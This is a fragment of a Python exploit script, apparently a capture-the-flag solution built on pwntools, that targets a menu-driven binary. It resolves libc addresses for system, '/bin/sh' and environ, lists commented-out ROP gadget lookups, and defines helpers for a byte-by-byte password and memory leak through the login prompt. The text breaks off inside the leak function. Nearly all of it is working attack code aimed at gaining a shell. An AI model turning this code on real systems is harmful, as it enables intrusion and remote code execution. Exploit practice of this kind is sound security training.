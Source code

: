 ```python
def minAllocSize(chunk_size):
    chunk_size = chunkSizeNoFlags(chunk_size)
    return chunk_size - 3 * SIZEOF_PTR + 1

def recvPointer(p):
    leak = p.recv(SIZEOF_PTR)
    assert(len(leak) == SIZEOF_PTR)
    leak = u32(leak)
    assert(leak > 0x10000)
    return leak

###### Constants ######
IS_DEBUG = False 
IS_REMOTE = True
IS_32_BIT = False 
SIZEOF_PTR = 4 if IS_32_BIT else 8
PASSWORD_LENGTH = 0x10

###### Offsets ######

###### Addresses ######
binary = ELF(BINARY)
puts_got = binary.got['puts']
puts_plt = binary.plt['puts']
stack_chk_fail_got = binary.got['__stack_chk_fail']

libc = ELF(LIBC)
bin_sh_libc = next(libc.search(b'/bin/sh'))
system_libc = libc.symbols['system']
puts_libc = libc.symbols['puts']
environ_libc = libc.symbols['environ']

# libc_rop = ROP(LIBC)
# pop_eax_ret = libc_rop.eax.address
# pop_ebx_ret = libc_rop.ebx.address
# pop_ecx_ret = libc_rop.ecx.address
# pop_edx_ret = libc_rop.edx.address
# leave_ret = libc_rop.find_gadget(['leave']).address
# int_80 = libc_rop.find_gadget(['int 0x80']).address

def login(p, buf):
    p.send(b'1')
    p.recvuntil(b'Your passowrd :')
    p.send(buf)
    data = p.recvuntil(b'>> ')
    return data

def logout(p):
    p.send(b'1')
    p.recvuntil(b'>> ')

def copy(p, buf):
    p.send(b'3')
    p.recvuntil(b'Copy :')
    p.send(buf)
    p.recvuntil(b'>> ')

def leak(p, n, prefix_bytes=b''):
    buf = b''
    leaked_bytes = prefix_bytes
    # Notice - we assume we have no '\x00' within the password.
    # Otherwise, we would have no way to gain indicative knowledge regarding the preceding bytes.
    # The same holds for b'\n', as it is converted to a nullbyte by the reading function.
```